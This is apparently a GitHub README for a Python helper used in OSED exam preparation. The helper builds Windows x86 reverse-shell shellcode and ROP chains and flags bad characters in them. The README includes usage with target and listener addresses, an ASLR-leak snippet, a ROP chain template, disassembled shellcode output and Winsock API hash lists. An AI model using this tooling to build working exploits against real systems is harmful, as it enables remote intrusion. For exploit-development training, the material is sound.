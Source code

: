 # OSEP_OSED_TOOLS

## OSED_exploit.py

### Overview

This script combines [ommadawn46's win-x86-shellcoder](https://github.com/ommadawn46/win-x86-shellcoder) and the RopChain class from [@Tan90909090's OSED blog post](https://tan.hatenadiary.jp/entry/2023/10/30/020524) to automate the process of checking bad characters in ROP gadgets and shellcode.

## Prerequisites

This script uses Python3 ,[Keystone-Engine](https://pypi.org/project/keystone-engine/) and [Capstone](https://pypi.org/project/capstone/) (tested with capstone-5.0.1-py3-none-win32.whl ) to assemble and  disassemble Shellcode respectively.

## Usage
```sh
./exploit_script.py -t <target_ip> -li <listener_ip> -lp <listener_port> [-d]
```

- `-t, --target`: Specifies the target IP address or hostname.
- `-li, --ipaddress`: IP address where your listener is running (for reverse shell payloads).
- `-lp, --port`: Listening port on which your listener is running.
- `-d, --debug`: Inserts an `int3` instruction in the shellcode for debugging purposes.

If the exploit requires you to leak base addresses to Bypass ASLR, uncomment:
```python
function_addr = leak_BaseAddr()
baseAddr = parseAddr(function_addr) - 0x1e70
def C(rop_address):
     " Converts preferred address of rop address to ASLR randomized address based on dllBase"
     return (baseAddr + (rop_address  - prefaddr))  
```

Your RopChain should look something like this:
```python
ropchain = RopChain(bad_chars)
		
# ROPCHAIN
ropchain.append(C(0x10154112))			# push esp ; inc ecx ; adc eax, 
...
```

When you run the exploit, the script will alert you when bad characters are present in your shellcode/ropchain.

```sh
python OSED_exploit.py -t 127.0.0.1 -li 127.0.0.1 -lp 4444 
...
[ ] 50                           : push eax
[x] 687f000001 : push 0x100007f
[ ] 66b8115c                     : mov ax, 0x5c11
[ ] c1e010                       : shl eax, 0x10
...
```

Remember to update `badchars`!
```
bad_chars = b"\x00"
```

If you're writing Shellcode that uses different Win32 APIs, make sure to change the loaded modules so the hash keys generated don't have bad characters.
```python
hash_key = find_hash_key(
	[
	("KERNEL32.DLL", "LoadLibraryA"),
	("WS2_32.DLL", "WSAStartup"),
	("WS2_32.DLL", "WSASocketA"),
	("WS2_32.DLL", "WSAConnect"),
	("KERNEL32.DLL", "CreateProcessA"),
	("KERNEL32.DLL", "TerminateProcess")
	], bad_chars
)
```

## Disclaimer